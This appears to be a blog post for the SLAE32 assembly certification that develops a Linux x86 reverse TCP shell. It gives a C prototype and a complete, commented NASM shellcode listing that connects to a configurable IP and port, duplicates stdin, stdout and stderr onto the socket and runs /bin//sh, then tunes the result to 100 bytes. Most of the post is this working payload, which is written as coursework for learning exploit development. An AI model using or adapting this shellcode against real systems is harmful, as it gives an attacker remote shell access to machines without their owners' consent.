 ```yaml
---
layout: page
title: SLAE32 Assignment 2
---
```


<div class="well" markdown="1">
<h2>SLAE32 Assignment 2: Reverse TCP Shell</h2>

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1009

The second assignment is to create a reverse tcp shell, with a configurable IP and port. In the first assignment, I opted for features over brevity. In this case, I aim to make the shellcode as short as possible.

Based on the [last assignment](/SLAE32/slae32-assignment1), one important structure that I will need is the `sockaddr_in` struct. The first byte will again be a 2, the second byte will be 0, the next two bytes will be the port, the next four bytes will be the IP address, then there will be 8 null bytes. This is what will get passed to the connect system call. Of course, I wanted to verify this as well as find the socketcall number, so again I created a C program to perform the reverse shell.

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>
#include <arpa/inet.h>
#include <unistd.h>

int main(){
	char *execargs[] = {"/bin//sh", 0};
	struct sockaddr_in sa;
	sa.sin_family = AF_INET;
	sa.sin_addr.s_addr = inet_addr("127.0.0.1");
	sa.sin_port = htons(9999);
	int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
	connect(sock, (const struct sockaddr *) &sa, 16);
	dup2(sock,0);
	dup2(sock,1);
	dup2(sock,2);
	execve(execargs[0], execargs, 0);
}
```

Running it through gdb as before shows that the socketcall number for `connect` is 3. This can be confirmed by looking at /usr/include/linux/net.h

```
#define SYS_CONNECT     3               /* sys_connect(2)               */
```
Based on this information, as well as what was learned in the first assignment, I was able to write the assembly code. For whatever reason, this one took a lot more debugging. In any case, here is the assembly file, with copious comments to explain each step.

```nasm
; Filename: shell_bind_fork_tcp.nasm
; Author:  Mark Shaneck
; Website:  http://markshaneck.com
;
; Purpose: The purpose of this shellcode connect back
; to a host and port of our choosing

global _start

section .text
_start:

	; First things first, call socket
	; need to call socketcall with args 1, and domain (2), type (1), protocol(6)
	push byte 6 ; protocol = IPPROTO_TCP
	push byte 1 ; type = SOCK_STREAM
	push byte 2 ; domain = AF_INET
	xor eax, eax
	mov al, 102 ; syscall - socketcall
	xor ebx,ebx
	mov bl, 1   ; socket sockcall type
	mov ecx, esp ; pointer to the args
	int 0x80

	; eax now contains the socket file descriptor

	; let's dup the stdio FDs
	pop ecx ; we are going to loop from 2 to 0, and 2 happens to be on the top of the stack
	mov ebx,eax ; put socket file descriptor in ebx
dup:
	mov al, 63 ; dup2 syscall
	int 0x80
	dec ecx
	cmp cl,0xff
	jne dup

	; now we call connect
	; we need the socket file descriptor, a pointer to the sockaddr structure and a 16
	; perform a jmp-call-pop to get the port number so that it is easily configurable
	jmp short get_sockaddr

got_sockaddr:
	pop ecx               ; put address of sockaddr struct into ecx
	mov edx,[ecx+2]
	push edx              ; push the ip address next
	mov dx, word [ecx]    ; put the port into ebx
	shl edx,16            ; move the port number to the higher order bytes
	add dl,2              ; put the socket family in there
	push edx

	mov edx, esp ; now ebx has the address of the sockaddr_in struct
	push byte 0x10
	push edx
	push ebx
	mov ecx, esp
	xor ebx,ebx
	mov bl, 3   ; connect sockcall type
	mov al, 102 ; syscall - socketcall
	int 0x80

	; we should now be connected

	; execve the shell using stack method
	; let's execute sh
	xor eax,eax
	push eax
	push 0x68732f2f
	push 0x6e69622f

	mov ebx,esp ; pointer to "/bin//sh"
	push eax
	mov edx,esp ; env pointer (NULL)

	push ebx
	mov ecx,esp ; pointer to [pointer to "/bin//sh", 0]

	mov al, 11 ; execve syscall
	int 0x80

get_sockaddr:
	call got_sockaddr
	sockaddr: db 0x27, 0x0f, 0x7f, 0x00, 0x00, 0x01
	; should we worry about the nulls in the ip addr?
```

Compiling and pasting the shellcode into the shellcode stub resulted in a functioning reverse tcp shell.

{% include image name="functional_shellcode.png" width="100%" %}

Total shellcode length was exactly 100 bytes, which was an improvement from my initial straightforward attempt, which was somewhere around 120 bytes. I tried to break the arbitrary 100 byte boundary, but I ran out of ways to shorten it any further. I could probably save a few more bytes by placing the ip address and port in the middle of the program and not using the jmp-call-pop technique to get its location, but I wanted to leave that in for ease of configuration.

Some of the improvements I made in this shellcode, as compared to assignment 1, aside from extra features, was pushing hardcoded bytes onto the stack directly, instead of loading them into registers and pushing those. The other major improvement I made to save some space was to rearrange the functions. Namely, putting `dup2` just after `socket` allowed for reuse of some registers, as the values were already in them.

One limitation of the shellcode is in the IP address. It is placed at the end and it is not encoded. That means that you cannot put an IP address as the destination that contains a null byte. At least, that is, if you need to avoid null bytes. As you can see in my example, I have two null bytes, since I was connecting to 127.0.0.1. However, I didn't want to add the additional complexity of encoding, plus any sort of simple encoding would require some byte to be disallowed from the IP address. The idea that I had was that you could put an encoding byte just after the IP address, and have the shellcode use that byte to decode the address. That way, it could be configurable, along with the IP, and so you could choose a byte that isn't in the address you were connecting to. 

</div>
